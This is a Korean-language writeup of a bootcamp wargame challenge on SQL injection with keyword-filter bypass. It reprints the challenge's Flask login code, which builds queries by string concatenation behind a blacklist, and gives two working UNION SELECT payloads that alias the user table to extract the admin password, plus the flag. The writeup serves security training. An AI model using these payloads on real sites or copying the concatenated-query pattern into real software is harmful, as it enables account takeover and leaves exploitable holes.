 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.5 SQLi_WAF_5"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-30T00:10:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10034/>

![3.5 SQLi WAF 5 1](/assets/images/writeup/web-hacking/knock-on/3-5_SQLi_WAF_5_1.png)

![3.5 SQLi WAF 5 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.5 SQLi WAF 5 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정의 비밀번호 알아내기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

## 코드 분석

### login()

---

```sql
filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
```

따옴표는 쓸 수 있음.

|

```sql
if user:
	return redirect(url_for("success", username=user[1]))
```

로그인 성공 시, `success`로 이동하며 `user[1]`을 넘겨줌

|

|

### success()

---

```sql
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)
```

`success.html`를 렌더링 하면서 `username`과 `flag`를 넘겨주지만, `login()`함수에서는 `user[1]`변수만 넘겨줬기 때문에 변수의 값에 따라 `username` 혹은 `flag` 둘 중 하나만 화면에 나타남

즉, `user[1]`을 `username`이 아니라 flag인 `password`로 직접 변경해줘야 함

|

|

|

## 문제 풀이

```sql
' union select 1,2,3 #
```

쿼리를 입력하면 `user[1]` 부분인 2가 화면에 출력됨

|

```sql
union select 1,password,3 from user where username like 'admin'
```

실행하고자 하는 쿼리는 이런 형태임

|

```sql
union select 1,password,3 from (재구성테이블) where username like 'admin'
```

테이블을 재구성하여 **‘password’**의 **‘or’**을 우회해야 함

|

```sql
-- 테이블 재구성
(select 1, 2 as name, 3 as pw
union
select * from user)owo
```

|

```sql
union
select 1,pw,3 from (
	select 1, 2 as name, 3 as pw
	union
	select * from user)owo
where name like 'admin'
```

테이블 장착

|

|

|

## Exploit

### 방법 1

---

```sql
username: ' UNION SELECT 1, pw, 3 FROM (SELECT 1, 2 AS name, 3 AS pw UNION SELECT * FROM user)owo WHERE name like 'admin' #

password: 1
```

|

### 방법 2

---

```sql
username: ' UNION SELECT 1, (select pw from (select 1,2 as name,3 as pw union select * from user)owo where name like 'admin'), 3 #

password: 1
```

|

|

### FLAG

---

```python
K0{good_4ft3rn00n!}
```

|